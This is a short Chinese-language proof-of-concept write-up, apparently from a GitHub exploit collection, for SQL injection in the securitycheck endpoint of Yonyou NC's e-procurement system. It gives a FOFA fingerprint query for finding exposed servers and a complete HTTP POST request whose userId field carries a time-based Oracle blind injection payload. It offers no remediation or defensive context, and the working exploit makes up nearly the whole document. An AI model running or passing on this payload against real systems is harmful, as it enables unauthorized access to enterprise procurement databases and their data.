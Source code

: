 ## 用友nc电子采购信息系统securitycheck存在sql注入



## fofa

```
body="UClient.dmg"
```



## poc

```
POST /ebs/securitycheck HTTP/1.1
Host: ip
Content-Length: 237
Method: POST securitycheck HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Accept: */*
Origin: http://ip
Referer: http://ip/ebs/core/login/login.jsp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=691A17DA3C872E1E35BACBE499022DE4.server; JSESSIONID=D80A3F043CD6E898C2076206848019D9.server
Connection: close

&accountCode=ERP%E7%B3%BB%E7%BB%9F&accountCodeValue=0001&datasource=design&corpCode=&maxWindow=0&compressStream=1&corpName=&workdate=123-09-22&userId=11' AND 1129=DBMS_PIPE.RECEIVE_MESSAGE(CHR(106)||CHR(121)||CHR(69)||CHR(110),5) AND 'Fjnc'='Fjnc&password=11&&pageUniqueId=328c7f3e-aea1-4bcf-bd91-05e0d2804719&pageId=login&isAjax=1
```

![image-20240525131651949](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405251316035.png)
